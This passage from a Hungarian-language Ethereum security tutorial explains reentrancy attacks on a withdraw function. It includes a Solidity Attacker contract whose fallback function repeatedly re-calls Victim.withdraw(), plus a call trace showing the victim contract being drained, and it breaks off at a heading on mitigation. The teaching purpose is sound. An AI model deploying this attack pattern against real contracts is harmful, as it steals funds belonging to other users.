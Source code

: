 Ahhoz, hogy egy felhasználó ETH-et utalhasson ki, amit korábban a szerződésben tárolt ez a függvény

1. Leolvassa, a felhasználó egyenlegét
2. Elküldi neki az egyenleg összegét ETH-ben
3. Visszaállítja 0-ra az egyenleget, így nem tudja még egyszer kiutalni az összeget.

Ha meghívja egy normál számla (mint a saját Metamask számlád), akkor az elvártnak megfelelően működik: msg.sender.call.value() egyszerűen ETH-et küld a számládra. Azonban az okosszerződések is tudnak hívásokat intézni. Ha egy egyedi, rosszindulatú szerződés a `withdraw()` függvény meghívója, akkor a msg.sender.call.value() nem csak `amount` összegű ETH-et fog küldeni, hanem implicit módon meghívja a szerződést, hogy elindítsa a kód végrehajtást. Képzeld el ezt a következő rosszindulatú szerződést:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Az Attacker.beginAttack() meghívása egy ciklust fog beindítani, mely valahogy így néz ki:

```
0.) A támadó EOA-ja (external owned account) meghívja a Attacker.beginAttack() függvényt 1 ETH-tel
0.) Az Attacker.beginAttack() beutal 1 ETH-et a Victim-be

  1.) Attacker -> Victim.withdraw()
  1.) Victim leolvassa a balanceOf[msg.sender] értéket
  1.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
    2.) Attacker -> Victim.withdraw()
    2.) Victim leolvassa a balanceOf[msg.sender] értéket
   2.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
      3.) Attacker -> Victim.withdraw()
      3.) Victim leolvassa a balanceOf[msg.sender] értéket
      3.) Victim ETH-et küld Attacker-nek (mely végrehajtja az alapértelmezett függvényt)
        4.) Attacker-nek nincs több gáza, hívás nélkül visszatér
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (már 0 volt az értéke)
  1.) balances[msg.sender] = 0; (már 0 volt az értéke)
```

Az Attacker.beginAttack meghívása 1 ETH-tel egy újbóli belépés támadást fog indítani Victim ellen, ezzel több ETH-et kiutalva, mint amennyit beletesz (melyet más felhasználók egyenlegéből vont le, így a Victim szerződés alulfedezetté válik)



### Hogyan kezeljük az újbóli belépést (a rosszabb mód) {#how-to-deal-with-re-entrancy-the-wrong-way}
